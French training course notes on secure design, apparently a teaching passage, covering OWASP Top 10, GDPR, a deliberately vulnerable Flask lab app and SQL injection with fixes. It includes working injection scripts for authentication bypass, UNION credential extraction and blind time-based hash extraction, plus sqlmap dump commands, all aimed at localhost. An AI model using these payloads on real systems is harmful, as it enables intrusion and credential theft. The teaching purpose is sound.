








# Security By Design: SÉANCE 1 : Fondamentaux et vulnérabilités d'injection (3h30)

---

## Module 1.1 - Fondamentaux de la sécurité (30 min)

> **Objectifs** — À l'issue de ce module, vous serez capables de :
> - Expliquer la triade CIA et citer un exemple de violation pour chaque pilier
> - Distinguer vulnérabilité, exploit et payload dans une chaîne d'attaque
> - Lister les 6 principes *Security by Design* et illustrer chacun par un exemple concret
> - Lire un score CVSS et positionner une vulnérabilité dans son cycle de vie
> - Identifier les 10 catégories OWASP Top 10 et les rattacher aux modules de cette formation

### 1.1.1 La triade CIA

La sécurité de l'information repose sur trois piliers fondamentaux :

**Confidentialité (Confidentiality)**
- Garantir que l'information n'est accessible qu'aux personnes autorisées
- Mécanismes :
  - Contrôle d'accès : RBAC, moindre privilège, SoD (Séparation des responsabilités)
  - Authentification forte : MFA (TOTP, WebAuthn/FIDO2), sessions sécurisées (cookies `HttpOnly`, `Secure`, `SameSite`)
  - Chiffrement en transit : TLS/HTTPS ; au repos : AES, TDE (Transparent Data Encryption)
  - Gestion des clés : rotation régulière, HSM/KMS, stockage hors code source
  - Protection des endpoints : EDR (Endpoint Detection & Response), DLP (Data Loss Prevention)
- Exemple de violation : fuite de base de données utilisateurs

**Intégrité (Integrity)**
- Garantir que les données ne sont pas altérées de manière non autorisée
- Mécanismes : hashage (SHA-256, HMAC), signatures numériques (JWT, TLS), contraintes BDD (PK, FK, ACID), journalisation d'audit
- Exemple de violation : modification non autorisée d'une transaction bancaire

**Disponibilité (Availability)**
- Garantir l'accès aux services pour les utilisateurs légitimes
- Mécanismes :
  - Architecture résiliente : redondance (N+1), load balancing, répartition multi-régions
  - Protection DDoS : WAF, rate limiting, dégradation progressive (graceful degradation, feature flags)
  - PRA/PCA : backups chiffrés, restauration testée, RPO (Recovery Point Objective) et RTO (Recovery Time Objective) définis
- Exemple de violation : attaque par déni de service

Les trois piliers sont interdépendants : un système qui garantit la confidentialité mais perd la disponibilité n'est pas sécurisé. Les mesures de sécurité doivent couvrir les trois axes simultanément.



### 1.1.2 Concepts clés

**Surface d'attaque** : ensemble des points d'entrée d'une application susceptibles d'être exploités
- Points d'entrée utilisateur (formulaires, URL, headers HTTP)
- APIs exposées
- Dépendances tierces
- Infrastructure (serveurs, BDD, cache)

**Vecteur d'attaque** : chemin emprunté par un attaquant pour exploiter une vulnérabilité
- Injection (SQL, commandes, LDAP)
- Manipulation côté client (XSS, CSRF)
- Élévation de privilèges
- Ingénierie sociale

**Vulnérabilité vs Exploit vs Payload**
- **Vulnérabilité** : faiblesse dans le système
- **Exploit** : technique pour tirer parti de la vulnérabilité
- **Payload** : code malveillant exécuté via l'exploit

**Chaîne d'attaque** : l'attaquant découvre une vulnérabilité, développe un exploit (script, outil) qui délivre un payload (code malveillant). Le payload est l'étape finale qui réalise l'objectif (exfiltration de données, élévation de privilèges, déni de service).



### 1.1.3 Principes Security by Design

1. **Defense in depth** (défense en profondeur) : plusieurs couches de sécurité
2. **Least privilege** (moindre privilège) : accorder uniquement les droits nécessaires
3. **Fail securely** : en cas d'erreur, l'état doit rester sûr
4. **Zero trust** : ne jamais faire confiance, toujours vérifier
5. **Security by default** : configuration sécurisée par défaut
6. **Keep it simple** : la complexité est ennemie de la sécurité

### 1.1.4 Cycle de vie d'une vulnérabilité



**CVE (Common Vulnerabilities and Exposures)** : référence standardisée
**CVSS (Common Vulnerability Scoring System)** : score de gravité de 0 à 10
- 0.1 - 3.9 : Faible
- 4.0 - 6.9 : Moyen
- 7.0 - 8.9 : Élevé
- 9.0 - 10.0 : Critique

### 1.1.5 Référentiel OWASP Top 10 — Applications Web

L'**OWASP Top 10** (Open Worldwide Application Security Project) est la liste de référence des risques de sécurité applicative web les plus critiques. La version 2021 reste la version officielle en 2026.

> Source : [OWASP Top 10 2021](https://owasp.org/Top10/2021/)

**Vue d'ensemble des 10 catégories** :

| Code | Catégorie | Idée clé | Couvert dans |
|------|-----------|----------|--------------|
| **A01:2021** | Broken Access Control | Règles « qui peut faire quoi » mal implémentées (IDOR, endpoints admin non protégés) | Séance 2 (IDOR) |
| **A02:2021** | Cryptographic Failures | Atteintes à la confidentialité : pas de TLS, mots de passe en clair, hash faibles | Séance 2 (Auth) |
| **A03:2021** | Injection | Données non fiables injectées dans des interpréteurs (SQL, OS, LDAP, templates) | Séance 1 (SQLi, XSS) |
| **A04:2021** | Insecure Design | Architecture ou modèle métier mal conçus dès l'origine | Séance 2 (SDLC) |
| **A05:2021** | Security Misconfiguration | Configurations par défaut, services inutiles exposés, CORS permissif | Séance 1 (CORS/CSP) |
| **A06:2021** | Vulnerable and Outdated Components | Bibliothèques et frameworks non patchés (Log4j, dépendances obsolètes) | Séance 2 (Safety/SCA) |
| **A07:2021** | Identification and Authentication Failures | Sessions prévisibles, absence de MFA, JWT mal signés | Séance 2 (Auth/MFA) |
| **A08:2021** | Software and Data Integrity Failures | Absence de vérification d'intégrité (mises à jour non signées, CI/CD non sécurisée) | Séance 2 (CSRF, SDLC) |
| **A09:2021** | Security Logging and Monitoring Failures | Logs absents ou trop pauvres, aucune alerte sur comportements anormaux | Séance 2 (Monitoring) |
| **A10:2021** | Server-Side Request Forgery (SSRF) | Le serveur exécute des requêtes vers une URL fournie par l'utilisateur | Séance 2 (Checklist) |

**Catégories prioritaires pour cette séance** :

**A01:2021 – Broken Access Control**
- IDOR / BOLA : `/users/123` accessible par n'importe quel utilisateur
- Endpoints « admin » non protégés ou cachés seulement par l'UI
- Contrôles d'accès réalisés uniquement côté client (JS) et non vérifiés côté serveur
- **Mesures** : politique d'autorisation claire (RBAC/ABAC), vérification systématique côté serveur, tests d'accès horizontal automatisés

**A02:2021 – Cryptographic Failures**
- Absence de HTTPS/TLS ou versions obsolètes
- Mots de passe stockés en clair ou avec des hash rapides (MD5, SHA-1)
- Clés de chiffrement dans le code source ou dans un dépôt Git public
- Algorithmes ou modes obsolètes (RC4, ECB)
- **Mesures** : TLS partout avec HSTS, hash bcrypt/Argon2/PBKDF2, gestion centralisée des secrets (Vault, KMS)

**A03:2021 – Injection**
- SQL injection : `SELECT * FROM users WHERE name = ' " + userInput + " '`
- Command injection : `os.system("ping " + user_input)`
- NoSQL, LDAP, template injection (SSTI)
- **Mesures** : requêtes paramétrées, ORM, validation stricte des entrées (listes blanches), moindre privilège sur les comptes DB/OS

**A05:2021 – Security Misconfiguration**
- Panneaux d'admin publics, comptes par défaut non changés
- Messages d'erreur détaillés exposés en production
- Services inutiles exposés, CORS trop permissif
- **Mesures** : hardening systématique, « secure by default », Infrastructure as Code, revue de configuration régulière

**A10:2021 – Server-Side Request Forgery (SSRF)**
- Service de « prévisualisation » d'URL appelant `http://localhost:8080/admin`
- Exploitation des metadata cloud (`http://169.254.169.254/`)
- **Mesures** : listes blanches strictes d'URLs/domaines, interdiction des IPs internes/localhost, segmentation réseau

> Les catégories A04, A06, A07, A08, A09 sont traitées en détail en séance 2.

> **À retenir**
> - La triade CIA est indivisible : compromettre un seul pilier suffit à déséquilibrer la sécurité d'un système.
> - **Surface d'attaque réduite = risque réduit** : éviter d'exposer ce qui n'est pas nécessaire est plus efficace que de multiplier les contrôles sur des points d'entrée inutiles.
> - Un score CVSS ≥ 7,0 signale une gravité élevée ou critique — traiter en priorité, délai de patch court.
> - L'OWASP Top 10 classe des **risques** (familles de failles), pas des vulnérabilités individuelles : une catégorie peut regrouper des dizaines d'implémentations différentes.

---

## Module 1.2 - Introduction au RGPD (5 min)

> **Objectif** — Comprendre que la protection des données personnelles n'est pas un complément de sécurité, mais une obligation légale qui s'intègre au code.

### 1.2.1 Principes fondamentaux

Le RGPD (Règlement Général sur la Protection des Données) impose des obligations techniques :

**Article 5 - Principes fondamentaux**
- **Licéité, loyauté, transparence** : base légale claire
- **Limitation des finalités** : usage déterminé
- **Minimisation** : collecter le strict nécessaire
- **Exactitude** : données à jour
- **Limitation de conservation** : durée définie
- **Intégrité et confidentialité** : sécurité technique

**Article 25 - Privacy by Design**
- Protection des données dès la conception
- Paramètres protecteurs par défaut

> **À retenir pour le moment**
> - **Privacy by Design** : la sécurité des données doit être intégrée dès la conception, pas en ajout tardif
> - **Minimisation** : ne stocker que ce qui est strictement nécessaire
> - **Sanctions** : jusqu'à 4 % du chiffre d'affaires mondial en cas de violation

---

**📚 Synthèse complète :** La matrice des 15 vulnérabilités et leurs impacts RGPD sera traitée en Séance 2 — Module 2.9 une fois que toutes les vulnérabilités seront connues.

---

## Module 1.3 - Mise en place de l'environnement (30 min)

> **Objectifs** — À l'issue de ce module, vous serez capables de :
> - Lancer VulnPyApp en local et vérifier que l'application fonctionne correctement
> - Écrire un script Python qui crawle automatiquement une application et liste ses endpoints et formulaires
> - Identifier les points d'entrée critiques d'une application à partir de sa cartographie

### 1.3.1 Installation de l'application vulnérable

Pour cette formation, nous utiliserons une application Flask volontairement vulnérable développée en Python, complétée par Juice Shop pour certains exercices.

**Application Python vulnérable - VulnPyApp**

Le code source de l'application est fourni dans le dossier `vulnpyapp/` du dépôt de la formation (lien fourni par l'enseignant).

```bash
# Se placer dans le dossier de l'application
cd vulnpyapp

# Environnement virtuel
python3 -m venv venv
source venv/bin/activate  # Linux/Mac
# venv\Scripts\activate   # Windows

# Installation des dépendances
pip install -r requirements.txt

# Initialisation de la base de données (utilisateurs, produits, commandes de test)
python init_db.py

# Lancement
python app.py
# Accessible sur http://localhost:5000
```

**Structure de l'application** :

```
vulnpyapp/
├── app.py              # Application Flask principale (routes vulnérables)
├── models.py           # Modèles SQLAlchemy (User, Product, Order, Comment)
├── config.py           # Configuration (cookies non sécurisés, MD5...)
├── init_db.py          # Initialisation BDD + comptes de test
├── vulnpyapp.db        # SQLite (généré par init_db.py)
├── templates/          # Templates Jinja2 (search, profile, comments...)
├── static/             # Assets statiques (style.css)
├── uploads/            # Dossier pour /download (path traversal — voir Module 1.7)
├── solutions/          # Scripts d'exploit (enseignant uniquement)
├── tests/              # Tests pytest
├── requirements.txt
├── Dockerfile          # Conteneur prêt-à-l'emploi
└── docker-compose.yml
```

**Comptes de test (fournis par `init_db.py`)** :

| Email | Mot de passe | Rôle |
|-------|--------------|------|
| `admin@vulnpyapp.local` | `Admin123!` | admin |
| `alice@vulnpyapp.local` | `Alice123!` | utilisateur |
| `bob@vulnpyapp.local` | `Bobby123!` | utilisateur |

### 1.3.2 Outils nécessaires

```bash
# Outils Python pour la sécurité
pip install requests           # Requêtes HTTP
pip install beautifulsoup4     # Parsing HTML
pip install sqlparse           # Analyse SQL
pip install bandit             # SAST Python
pip install safety             # Audit dépendances
```

**Outils complémentaires** :
- **Burp Suite Community** : proxy d'interception
- **OWASP ZAP** : scanner automatisé
- **Postman / Insomnia** : tests d'API

### 1.3.3 Cartographie de l'application

**Exercice guidé : exploration systématique**

```python
# scripts/explore.py - Outil de cartographie
import requests
from bs4 import BeautifulSoup
from urllib.parse import urljoin, urlparse

class AppMapper:
    def __init__(self, base_url):
        self.base_url = base_url
        self.visited = set()
        self.endpoints = []
        self.forms = []

    def crawl(self, url=None):
        url = url or self.base_url
        if url in self.visited:
            return
        self.visited.add(url)

        try:
            response = requests.get(url, timeout=5)
            soup = BeautifulSoup(response.text, 'html.parser')

            # Collecte des formulaires (points d'entrée critiques)
            for form in soup.find_all('form'):
                self.forms.append({
                    'action': urljoin(url, form.get('action', '')),
                    'method': form.get('method', 'GET').upper(),
                    'inputs': [i.get('name') for i in form.find_all('input')]
                })

            # Collecte des liens
            for link in soup.find_all('a', href=True):
                full_url = urljoin(url, link['href'])
                if urlparse(full_url).netloc == urlparse(self.base_url).netloc:
                    self.endpoints.append(full_url)
                    self.crawl(full_url)
        except Exception as e:
            print(f"Erreur sur {url}: {e}")

    def report(self):
        print(f"\n=== Endpoints découverts : {len(self.endpoints)} ===")
        for e in set(self.endpoints):
            print(f"  - {e}")
        print(f"\n=== Formulaires découverts : {len(self.forms)} ===")
        for f in self.forms:
            print(f"  - {f['method']} {f['action']} : {f['inputs']}")

if __name__ == '__main__':
    mapper = AppMapper('http://localhost:5000')
    mapper.crawl()
    mapper.report()
```

> **À retenir**
> - La cartographie automatique (crawling + analyse des formulaires) est le premier réflexe d'un audit : elle révèle l'étendue réelle de la surface d'attaque.
> - Chaque formulaire, paramètre d'URL et en-tête HTTP est un point d'entrée potentiel : les recenser exhaustivement avant de tester.
> - Les endpoints `/api/*` et les formulaires POST méritent une attention particulière car ils modifient l'état du système.

---

## Module 1.4 - Injections SQL (50 min)

> **Objectifs** — À l'issue de ce module, vous serez capables de :
> - Expliquer pourquoi la concaténation de chaînes est la cause fondamentale des injections SQL
> - Distinguer les trois familles d'injections SQL (in-band, blind, out-of-band) et choisir la technique adaptée selon la réponse de l'application
> - Construire manuellement un payload de bypass d'authentification et un payload UNION
> - Corriger une injection SQL avec des requêtes paramétrées (sqlite3 natif ou ORM SQLAlchemy)
> - Ajouter une validation d'entrée avec Pydantic comme défense en profondeur

### 1.4.1 Principe fondamental

Une injection SQL exploite le fait que des données utilisateur sont concaténées dans une requête SQL sans échappement, permettant la modification de la logique de la requête.

```python
# CODE VULNÉRABLE - À NE JAMAIS UTILISER
import sqlite3

def login(email, password):
    conn = sqlite3.connect('database.db')
    cursor = conn.cursor()

    # 🚨 DANGER : concaténation directe
    query = f"SELECT * FROM users WHERE email = '{email}' AND password = '{password}'"
    cursor.execute(query)
    return cursor.fetchone()
```

**Avec l'input malveillant** `email = "admin@vulnpyapp.local' --"` :
```sql
SELECT * FROM users WHERE email = 'admin@vulnpyapp.local' --' AND password_hash = '...'
-- Le -- transforme la suite en commentaire SQL
```

**Fonctionnement** : sans paramétrage, l'input utilisateur est concaténé directement dans la requête SQL. Il devient partie intégrante de la commande, ce qui permet de modifier la logique (bypass du WHERE, UNION vers d'autres tables, appels de fonctions).



### 1.4.2 Types d'injections SQL

**1. Injection in-band (classique)**
- **Error-based** : exploite les messages d'erreur
- **UNION-based** : utilise UNION pour récupérer des données

**2. Injection blind (aveugle)**
- **Boolean-based** : déduit l'information via vrai/faux
- **Time-based** : utilise les délais d'exécution

**3. Injection out-of-band**
- Exfiltration via canal externe (DNS, HTTP)

**Choix de la technique** : si l'application affiche des erreurs SQL ou les résultats, on utilise les techniques in-band. Si la réponse est muette, on passe en blind (déduction par vrai/faux ou temporisation). L'out-of-band est utilisé quand on ne peut pas recevoir la réponse directement.



### 1.4.3 Exploitation pratique

**Exemple 1 : Bypass d'authentification**

```python
# scripts/sqli_auth_bypass.py
import requests

url = "http://localhost:5000/login"

# Payloads classiques de bypass
payloads = [
    "admin@vulnpyapp.local' --",
    "admin@vulnpyapp.local' OR '1'='1",
    "' OR 1=1 --",
    "admin' /*",
    "' OR 'x'='x",
]

for payload in payloads:
    data = {'email': payload, 'password': 'anything'}
    response = requests.post(url, data=data, allow_redirects=False)

    if response.status_code == 302 or 'dashboard' in response.text.lower():
        print(f"✅ BYPASS RÉUSSI avec : {payload}")
        print(f"   Cookie : {response.cookies.get('session')}")
        break
    else:
        print(f"❌ Échec : {payload}")
```

**Exemple 2 : Extraction de données avec UNION**

```python
# scripts/sqli_union.py
import requests
import re

url = "http://localhost:5000/search"

# Étape 1 : déterminer le nombre de colonnes
for n in range(1, 10):
    payload = f"' UNION SELECT {','.join(['NULL']*n)} --"
    r = requests.get(url, params={'q': payload})
    if 'error' not in r.text.lower():
        print(f"✅ Nombre de colonnes : {n}")
        num_cols = n
        break

# Étape 2 : extraire les noms de tables (SQLite)
payload = f"' UNION SELECT name,{'NULL,'*(num_cols-2)}NULL FROM sqlite_master WHERE type='table' --"
r = requests.get(url, params={'q': payload})
tables = re.findall(r'<td>(\w+)</td>', r.text)
print(f"📋 Tables découvertes : {tables}")

# Étape 3 : extraire les données sensibles
payload = f"' UNION SELECT email||':'||password,{'NULL,'*(num_cols-2)}NULL FROM users --"
r = requests.get(url, params={'q': payload})
credentials = re.findall(r'<td>([\w@.]+:\w+)</td>', r.text)
print(f"🔓 Credentials extraits : {credentials}")
```

**Exemple 3 : Blind SQLi time-based via /search**

VulnPyApp expose `/search?q=...` qui concatène l'entrée dans `SELECT * FROM products WHERE name LIKE '%...%'`. On peut détourner cette injection pour extraire des données d'autres tables via une logique conditionnelle (les requêtes coûteuses ralentissent volontairement la réponse).

```python
# scripts/sqli_blind.py
import requests
import time
import string

url = "http://localhost:5000/search"

def extract_char_at_position(position):
    """Extrait un caractère du hash MD5 admin à une position donnée"""
    for char in string.hexdigits.lower():
        # SUBSTR(password_hash, position, 1) = char
        # Si vrai → WITH RECURSIVE génère 100 000 itérations (délai ~2s sur SQLite)
        # Si faux → réponse immédiate
        payload = (
            f"x%' AND (SELECT CASE WHEN "
            f"(SUBSTR((SELECT password_hash FROM users WHERE email='admin@vulnpyapp.local'),"
            f"{position},1)='{char}') "
            f"THEN (WITH RECURSIVE cnt(x) AS "
            f"(SELECT 1 UNION ALL SELECT x+1 FROM cnt WHERE x<100000) "
            f"SELECT COUNT(*) FROM cnt) ELSE 0 END)--"
        )
        start = time.time()
        requests.get(url, params={'q': payload})
        elapsed = time.time() - start

        if elapsed > 2:  # Si délai significatif → caractère trouvé
            return char
    return None

password_hash = ""
for pos in range(1, 33):  # MD5 = 32 caractères
    char = extract_char_at_position(pos)
    if not char:
        break
    password_hash += char
    print(f"Position {pos}: {char} → hash partiel = {password_hash}")
```

### 1.4.4 Automatisation avec SQLMap

```bash
# Détection automatique
sqlmap -u "http://localhost:5000/search?q=test" --batch

# Extraction des bases
sqlmap -u "http://localhost:5000/search?q=test" --dbs

# Extraction d'une table
sqlmap -u "http://localhost:5000/search?q=test" -D main -T users --dump
```

La facilité d'automatisation de SQLMap illustre à quel point les injections SQL sont exploitables rapidement : en quelques secondes, la totalité d'une base de données peut être extraite sans aucune connaissance particulière. La correction est heureusement tout aussi simple à mettre en œuvre.

### 1.4.5 Correction : requêtes paramétrées

**Méthode 1 : sqlite3 avec placeholders**

```python
# ✅ CODE SÉCURISÉ
import sqlite3

def login(email, password):
    conn = sqlite3.connect('database.db')
    cursor = conn.cursor()

    # Les ? sont des placeholders, les paramètres sont échappés automatiquement
    query = "SELECT * FROM users WHERE email = ? AND password = ?"
    cursor.execute(query, (email, password))
    return cursor.fetchone()
```

**Méthode 2 : ORM SQLAlchemy (recommandé)**

```python
# ✅ CODE SÉCURISÉ avec ORM
from sqlalchemy import create_engine, Column, Integer, String
from sqlalchemy.ext.declarative import declarative_base
from sqlalchemy.orm import sessionmaker

Base = declarative_base()

class User(Base):
    __tablename__ = 'users'
    id = Column(Integer, primary_key=True)
    email = Column(String, unique=True)
    password = Column(String)

engine = create_engine('sqlite:///database.db')
Session = sessionmaker(bind=engine)

def login(email, password):
    session = Session()
    # L'ORM gère le paramétrage automatiquement
    user = session.query(User).filter(
        User.email == email,
        User.password == password
    ).first()
    return user
```

**Méthode 3 : avec Flask-SQLAlchemy**

```python
# ✅ CODE SÉCURISÉ avec Flask
from flask_sqlalchemy import SQLAlchemy

db = SQLAlchemy()

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    email = db.Column(db.String(120), unique=True)
    password_hash = db.Column(db.String(255))

@app.route('/login', methods=['POST'])
def login():
    email = request.form['email']
    user = User.query.filter_by(email=email).first()
    if user and verify_password(request.form['password'], user.password_hash):
        # Connexion réussie
        ...
```

### 1.4.6 Défenses en profondeur

```python
# Validation d'entrée avec Pydantic
from pydantic import BaseModel, EmailStr, constr

class LoginRequest(BaseModel):
    email: EmailStr  # Validation format email
    password: constr(min_length=8, max_length=128)

@app.route('/login', methods=['POST'])
def login():
    try:
        data = LoginRequest(**request.json)
    except ValidationError as e:
        return jsonify({'error': 'Invalid input'}), 400

    # Données validées et typées
    user = User.query.filter_by(email=data.email).first()
